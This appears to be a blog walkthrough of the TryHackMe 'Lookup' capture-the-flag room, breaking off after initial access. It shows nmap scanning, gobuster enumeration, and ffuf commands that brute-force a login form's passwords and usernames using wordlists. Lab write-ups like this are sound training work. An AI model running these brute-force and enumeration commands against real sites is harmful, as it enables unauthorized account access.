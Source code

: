 ```yaml
---
title: "TryHackMe: Lookup"
author: cilgin
date: 2025-06-27 17:59:47 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: true
math: false
mermaid: false
image:
  path: /assets/img/2025-06-21-TryHackMe-Lookup/main.png
---
```


Hi guys now i'm making <https://tryhackme.com/room/lookup> room.

---

## Nmap Scan

First things first, let's make our lives a little easier. I'm exporting the target IP to an environment variable so I don't have to type it a million times.

```bash
export IP=10.10.219.52
```

With our variable set, it's time to unleash `nmap`:

```bash
❯ nmap -T4 -n -sC -sV -Pn -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-27 17:58 +0300
Nmap scan report for 10.10.219.52
Host is up (0.074s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c1:86:69:de:5a:2b:d9:2d:e4:66:63:31:59:8c:b9:51 (RSA)
|   256 42:53:6f:97:c3:7d:bb:cc:a0:38:ed:4f:b2:73:28:32 (ECDSA)
|_  256 c4:44:35:6d:9b:51:ca:03:1b:42:0f:51:ac:34:fd:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.29 seconds
```

```bash
curl $IP
```

But there is not output so i go to my browser and type the ip adress

It seems to be this IP adress is routing me to <http://lookup.thm>. So i add this domain to the `/etc/hosts`

And i see the website

![Desktop View](/assets/img/2025-06-21-TryHackMe-Lookup/photo1.png){: width="972" height="589" }

And i tried password:password but it didnt worked of course.

and i tried fuzzing the server with `gobuster`

```bash
❯ gobuster dir -w common.txt -u http://lookup.thm/ -x md,js,html,php,py,css,txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lookup.thm/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              md,js,html,php,py,css,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 719]
/login.php            (Status: 200) [Size: 1]
/server-status        (Status: 403) [Size: 275]
/styles.css           (Status: 200) [Size: 687]
Progress: 37912 / 37912 (100.00%)
===============================================================
Finished
===============================================================
```

There is login.php we can use brute force this webpage

If ı go the main page and try something I see username and password on http request

```text
admin=admin&password=admin
```

I guess the username is admin so we need to find the password.

I use `ffuf` to get the password.

```bash
❯ ffuf -w rockyou.txt -X POST -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /home/cilgin/dev/wordlist/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded; charset=UTF-8
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 8
________________________________________________

*************             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 75ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```


We know the password now

If ı try that password to log in it didnt worked.

So maybe i need to fuzz the users too.

```bash
❯ ffuf -w xato_net_usernames.txt -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=REDACTED' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 10

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /home/cilgin/dev/wordlist/xato_net_usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded; charset=UTF-8
 :: Data             : username=FUZZ&password=REDACTED
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 10
________________________________________________

****                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 74ms]
```


I tried logging in with the credentials. And logged in but site routed me to files.lookup.thm
So i added the domain to the /etc/hosts


and ı finded some web file manager software.


![Desktop View](/assets/img/2025-06-21-TryHackMe-Lookup/photo2.png){: width="972" height="589" }



